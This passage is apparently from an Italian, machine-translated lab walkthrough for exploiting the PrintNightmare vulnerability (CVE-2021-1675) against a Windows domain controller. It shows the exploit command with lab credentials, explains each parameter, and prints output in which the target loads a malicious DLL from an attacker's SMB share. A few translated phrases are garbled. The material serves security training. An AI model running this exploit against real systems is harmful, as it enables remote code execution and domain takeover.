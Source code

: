 Sintassi del codice exploit
```
python3 CVE-2021-1675.py Finance-01.THMdepartment.local/sjohnston:mindheartbeauty76@10.10.105.71 '\\10.14.99.134\share\malicious.dll'
```
```shell-session
root@attackbox:~/Desktop/pn/CVE-2021-1675# python3.9 CVE-2021-1675.py Finance-01.THMdepartment.local/sjohnston:mindheartbeauty76@MACHINE_IP '\\192.168.0.100\share\malicious.dll'
```

Una breve spiegazione del comando nell'immagine sopra:

- **python3.9 CVE -2021-1675.py** -> stai istruendo Python a eseguire il seguente script Python. I valori che seguono sono i parametri di cui lo script ha bisogno per sfruttare con successo la vulnerabilità PrintNightmare.
- **Finance-01.THMdepartment.local** -> il nome del controller di dominio ( **Finance-01** ) insieme al nome del dominio ( **THMdepartment.local** )
- **sjohnston:mindheartbeauty76@MACHINE_IP**  -> nome utente e password per l'account utente Windows con privilegi bassi.   
    
- **\\ATTACKER_IP_ADDRESS\share\malicious. dll** -> posizione del percorso SMB in cui è archiviata la DLL dannosa . 

Se tutto va bene, dovresti vedere un output simile all'immagine qui sotto.

Esegui l'exploit

```shell-session
root@attackbox:~/Desktop/pn/CVE-2021-1675# python3.9 CVE-2021-1675.py Finance-01.THMdepartment.local/sjohnston:mindheartbeauty76@MACHINE_IP '\\192.168.0.100\share\malicious.dll'
[*] Connecting to ncacn_np:MACHINE_IP[\PIPE\spoolss]
[+] Bind OK
[+] pDriverPath Found C:\Windows\System32\DriverStore\FileRepository\ntprint.inf_amd64_83aa9aebf5dffc96\Amd64\UNIDRV.DLL
[*] Executing \??\UNC\192.168.0.100\share\malicious.dll
[*] Try 1...
[*] Stage0: 0
[*] Try 2...
[*] Stage0: 0
[*] Try 3...
[*] Stage0: 0
```

Potresti riscontrare **degli** errori Python dopo **il tentativo 3...** ma puoi tranquillamente ignorarli.

Sulla casella dell'attaccante dovresti vedere la connessione SMB che richiama il file DLL dannoso .  

La vittima si collega alPMIcondividere per i malintenzionatiDLL

```shell-session
root@attackbox:~/Desktop/pn# ...
[*] Incoming connection (MACHINE_IP,55037)
[*] AUTHENTICATE_MESSAGE (\,FINANCE-01)
[*] User FINANCE-01\ authenticated successfully
[*] :::00::aaaaaaaaaaaaaaaa
[*] Connecting Share(1:IPC$)
[*] Connecting Share(2:share)
[*] Disconnecting Share(1:IPC$)
[*] Disconnecting Share(2:share)
[*] Closing down connection (10.10.210.90,55037)
[*] Remaining connections []
```
